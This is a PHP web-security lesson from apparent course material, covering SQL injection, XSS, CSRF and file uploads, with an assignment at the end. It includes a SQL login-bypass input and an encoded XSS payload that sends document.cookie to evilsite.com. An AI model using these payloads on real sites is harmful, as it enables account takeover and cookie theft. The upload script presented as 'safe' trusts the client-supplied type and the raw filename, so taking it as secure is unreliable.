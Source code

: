 # PHP - Security

## Security

Security is an important aspect of web development. In this section, we will discuss some common security issues and how to prevent them.

### SQL Injection

SQL injection is a type of attack where an attacker inserts malicious SQL code into a query. This can lead to data loss, data corruption, or unauthorized access to the database.

To prevent SQL injection, you should always use prepared statements when interacting with the database. Prepared statements separate the SQL query from the data, preventing the attacker from injecting malicious code.

Example of dangerous SQL query:

```php
<?global $DBH;
require_once __DIR__ . '/dbConnect.php';

$username = $_POST['username'];
$password = $_POST['password'];

$sql = "SELECT * FROM users WHERE username = '$username' AND password = '$password'";
$STH = $DBH->query($sql);
$user = $STH->fetch(PDO::FETCH_ASSOC);
?>
```

How to exploit the previous code:

```sql
username: admin' OR '1'='1
password: password
```

The previous code will return all users from the database because the query will be:

```sql
SELECT * FROM users WHERE username = 'admin' OR '1'='1' AND password = 'password'
```

To prevent SQL injection, you should use prepared statements.

---

### Cross-Site Scripting (XSS)

Cross-Site Scripting (XSS) is a type of attack where an attacker injects malicious scripts into a web page. This can lead to data theft, session hijacking, or unauthorized access to the website.

To prevent XSS attacks, you should always sanitize user input before displaying it on the web page. You can use functions like `htmlspecialchars()` or `strip_tags()` to sanitize user input.

Example of dangerous code with an insecure cookie:

```php
<?php
// setcookie.php
setcookie('username', 'myusername', time() + 3600, '/');
?>
```

```php
<?php
// danger.php
echo $_GET['someparam'];
?>
```

Open this url to exploit the previous code:

```
http://localhost/folder/danger.php?someparam=%3Cscript%3E%28async%28%29%20%3D%3E%20await%20fetch%28%27http%3A%2F%2Fevilsite.com%2Fsteal.php%3Fcookie%3D%27%20%2B%20document.cookie%29%29%28%29%3C%2Fscript%3E
```

The above url has a script that will steal the user's cookie and send it to `evilsite.com`. `someparam` is urlencoded version of `<script>(async() => await fetch('http://evilsite.com/steal.php?cookie=' + document.cookie))()</script>`.

To prevent XSS attacks, you should always sanitize user input before displaying it on the web page.

Above example sanitized:

```php
<?php
// danger.php
echo htmlspecialchars($_GET['someparam']);
?>
```

---

### Cross-Site Request Forgery (CSRF)

Cross-Site Request Forgery (CSRF) is a type of attack where an attacker tricks a user into performing an action on a website without their knowledge. This can lead to unauthorized actions being performed on the website.

To prevent CSRF attacks, you should always use CSRF tokens. A CSRF token is a unique token that is generated for each user session. The token is included in the form submission and verified on the server side.

Example of a form with a CSRF token:

```php
<?php
session_start();
$_SESSION['csrf_token'] = bin2hex(random_bytes(32));
?>
<form action="submit.php" method="post">
    <input type="hidden" name="csrf_token" value="<?php echo $_SESSION['csrf_token']; ?>">
    <input type="text" name="username">
    <input type="password" name="password">
    <input type="submit" value="Submit">
</form>
```

```php
<?php
session_start();
if ($_POST['csrf_token'] !== $_SESSION['csrf_token']) {
    die('CSRF token invalid');
}
?>
```

---

### File Uploads

File uploads are a common feature in web applications. However, they can be a security risk if not handled properly. An attacker can upload malicious files to the server and execute them.

To prevent file upload attacks, you should always validate and sanitize user input before moving the file to the server. You should check the file type, file size, and file name before moving the file to the server.

Never allow users to upload executable files like `.php`, `.exe`, or `.sh`. Always store uploaded files in a secure location outside the web root directory or use separate file server for file uploads.

Only files with php extension are executed by the server. If you upload a file with php extension, the server will execute it. To prevent this, you should check the file type and file name before moving the file to the server.

Example of a safe file upload script:

```php
<?php
// upload.php

if ($_FILES['file'] == null) {
    echo "No file uploaded";
    exit;
}

$filename    = $_FILES['file']['name'];
$filesize    = $_FILES['file']['size'];
$filetype    = $_FILES['file']['type'];
$tmp_name    = $_FILES['file']['tmp_name'];
$error       = $_FILES['file']['error'];
$destination = __DIR__ . '/uploads/' . $filename;

if ($error > 0) {
    echo "Error: " . $error;
    exit;
}

// check file type
$allowed_types = ['image/jpeg', 'image/png', 'image/gif'];

if (!in_array($filetype, $allowed_types)) {
    echo "Invalid file type";
    exit;
}

// check file size
$max_size = 1024 * 1024; // 1MB

if ($filesize > $max_size) {
    echo "File too large";
    exit;
}

// double check that file does not contain php
if (strpos($filename, '.php') !== false) {
    echo "Invalid file name";
    exit;
}

if (move_uploaded_file($tmp_name, $destination)) {
    echo "File uploaded successfully";
} else {
    echo "Error uploading file";
}

?>
```

---

### OWASP

The Open Web Application Security Project (OWASP) is an open-source project that focuses on improving the security of web applications. OWASP provides a list of the [top 10 security risks for web applications and best practices to prevent them](https://owasp.org/www-project-top-ten/).

---

## Assignment

Secure the application from the previous assignments by implementing the following security measures:

1. Prevent SQL injection by using prepared statements when interacting with the database. (this should be done already in the previous assignments)
2. Prevent XSS attacks by sanitizing user input before displaying it on the web page.
3. Prevent CSRF attacks by using CSRF tokens in forms.
4. Prevent file upload attacks by validating and sanitizing user input before moving the file to the server.



